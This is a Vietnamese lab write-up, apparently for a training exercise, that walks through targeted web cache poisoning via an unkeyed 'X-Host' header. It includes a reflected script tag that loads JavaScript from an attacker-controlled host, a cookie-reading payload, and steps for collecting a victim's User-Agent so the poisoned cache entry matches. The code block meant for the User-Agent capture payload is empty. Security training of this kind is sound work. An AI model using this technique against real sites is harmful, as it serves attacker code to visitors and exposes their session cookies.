






# Bài lab: Web cache poisoning hướng mục tiêu bằng header ẩn

Mục tiêu: Tìm và khai thác một header chưa được khóa để thực hiện cache poisoning nhắm mục tiêu.

## Phát hiện header

- Sử dụng Param Miner để dò các header tiềm năng ảnh hưởng tới nội dung.
  

- Kết quả: phát hiện header `X-Host` có thể thay đổi nội dung phản hồi.

## Xác minh & phân tích

- Gửi `GET /` kèm `X-Host: example.com` và so sánh phản hồi; thấy khác biệt khi header này tồn tại.
  

- Giá trị `X-Host` được ghép vào URL của tài nguyên:

```
<script type="text/javascript" src="//example.com/resources/js/tracking.js">
```

## Chuẩn bị exploit

- Chuẩn bị exploit server trả về `/resources/js/tracking.js` chứa mã thực thi (ví dụ `alert(document.cookie)`).
  
  

## Vary header và thu thập `User-Agent`

- Phát hiện header phản hồi `Vary: User-Agent`. Do đó cache phân theo `User-Agent`—cần biết `User-Agent` của nạn nhân để tạo cache trùng khớp.
- Đặt payload trong một bình luận hoặc nội dung để bắt trình duyệt nạn nhân truy vấn exploit server và ghi log; ví dụ:

```

```

- Kiểm tra log exploit server để lấy `User-Agent` thực tế của nạn nhân.
  

## Tạo cache với `User-Agent` mục tiêu

- Gửi các yêu cầu lặp lại với đúng `User-Agent` để tạo bản cache tương ứng trên server.
  

## Kết quả

- Payload được phục vụ cho nạn nhân khi họ truy cập Home với `User-Agent` đã xác định.
